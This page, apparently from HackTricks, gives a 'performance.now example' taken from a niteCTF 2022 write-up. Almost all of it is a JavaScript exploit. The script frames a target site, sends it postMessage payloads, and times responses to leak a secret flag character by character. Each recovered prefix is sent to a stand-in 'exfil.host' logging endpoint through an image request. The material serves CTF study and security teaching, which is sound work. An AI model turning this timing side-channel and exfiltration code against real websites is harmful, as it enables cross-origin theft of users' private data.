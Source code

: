# performance.now example

{{#include ../../banners/hacktricks-training.md}}

**Example taken from [https://ctf.zeyu2001.com/2022/nitectf-2022/js-api](https://ctf.zeyu2001.com/2022/nitectf-2022/js-api)**

```javascript
const sleep = (ms) => new Promise((res) => setTimeout(res, ms))

async function check(flag) {
  let w = frame.contentWindow
  w.postMessage(
    { op: "preview", payload: '<img name="enable_experimental_features">' },
    "*"
  )
  await sleep(1)
  w.postMessage({ op: "search", payload: flag }, "*")
  let t1 = performance.now()
  await sleep(1)
  return performance.now() - t1 > 200
}

async function main() {
  let alpha =
    "abcdefghijklmnopqrstuvwxyz0123456789_ABCDEFGHIJKLMNOPQRSTUVWXYZ-}"
  window.frame = document.createElement("iframe")
  frame.width = "100%"
  frame.height = "700px"
  frame.src = "https://challenge.jsapi.tech/"
  document.body.appendChild(frame)
  await sleep(1000)

  let flag = "nite{"
  while (1) {
    for (let c of alpha) {
      let result = await Promise.race([
        check(flag + c),
        new Promise((res) =>
          setTimeout(() => {
            res(true)
          }, 300)
        ),
      ])
      console.log(flag + c, result)
      if (result) {
        flag += c
        break
      }
    }
    new Image().src = "//exfil.host/log?" + encodeURIComponent(flag)
  }
}

document.addEventListener("DOMContentLoaded", main)
```

{{#include ../../banners/hacktricks-training.md}}
